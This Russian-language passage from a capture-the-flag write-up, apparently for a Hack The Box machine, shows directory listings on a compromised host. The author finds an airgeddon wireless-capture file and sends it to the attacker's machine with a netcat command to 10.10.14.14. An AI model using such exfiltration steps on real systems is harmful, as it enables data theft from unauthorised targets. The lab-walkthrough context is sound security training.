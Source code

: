 Чтобы не мучить тебя долгими листингами, скажу на словах: нужно было погулять по файловой системе и наткнуться на каталог `/home/zeus/airgeddon/captured`:
```text
$ ls -la /home/zeus/airgeddon/
total 1100
drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 .
drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 ..
-rw-r--r-- 1 zeus zeus    264 Apr  8 00:58 .editorconfig
drwxr-xr-x 1 zeus zeus   4096 Apr  8 00:59 .git
-rw-r--r-- 1 zeus zeus    230 Apr  8 00:58 .gitattributes
drwxr-xr-x 1 zeus zeus   4096 Apr  8 00:59 .github
-rw-r--r-- 1 zeus zeus     89 Apr  8 00:58 .gitignore
-rw-r--r-- 1 zeus zeus  15855 Apr  8 00:58 CHANGELOG.md
-rw-r--r-- 1 zeus zeus   3228 Apr  8 00:58 CODE_OF_CONDUCT.md
-rw-r--r-- 1 zeus zeus   6358 Apr  8 00:58 CONTRIBUTING.md
-rw-r--r-- 1 zeus zeus   3283 Apr  8 00:58 Dockerfile
-rw-r--r-- 1 zeus zeus  34940 Apr  8 00:58 LICENSE.md
-rw-r--r-- 1 zeus zeus   4425 Apr  8 00:58 README.md
-rw-r--r-- 1 zeus zeus 297711 Apr  8 00:58 airgeddon.sh
drwxr-xr-x 1 zeus zeus   4096 Apr  8 00:59 binaries
drwxr-xr-x 1 zeus zeus   4096 Apr  8 17:31 captured
drwxr-xr-x 1 zeus zeus   4096 Apr  8 00:59 imgs
-rw-r--r-- 1 zeus zeus  16315 Apr  8 00:58 known_pins.db
-rw-r--r-- 1 zeus zeus 685345 Apr  8 00:58 language_strings.sh
-rw-r--r-- 1 zeus zeus     33 Apr  8 00:58 pindb_checksum.txt

$ cd captured

$ ls -la
total 304
drwxr-xr-x 1 zeus zeus   4096 Apr  8 17:31 .
drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 ..
-rw-r--r-- 1 zeus zeus 297917 Apr  8 12:48 captured.cap
-rw-r--r-- 1 zeus zeus     57 Apr  8 17:30 papyrus.txt
```

```text
$ cat papyrus.txt
Captured while flying. I'll banish him to Olympia - Zeus
```

```text
$ file captured.cap
captured.cap: tcpdump capture file (little-endian) - version 2.4 (802.11, capture length 65535)
```

`airgeddon` — это такой bash-скрипт (от создателя бокса, кстати), который автоматизирует аудит беспроводных сетей (в основном позволяет легче управляться с `aircrack-ng`), поэтому нетрудно догадаться, что предстоит делать дальше.

Забираем дамп трафика к себе на машину (вспоминая, как было бы удобно сделать это в один клик из-под meterpreter-сессии):
```text
$ nc -w3 10.10.14.14 8888 < captured/captured.cap
```
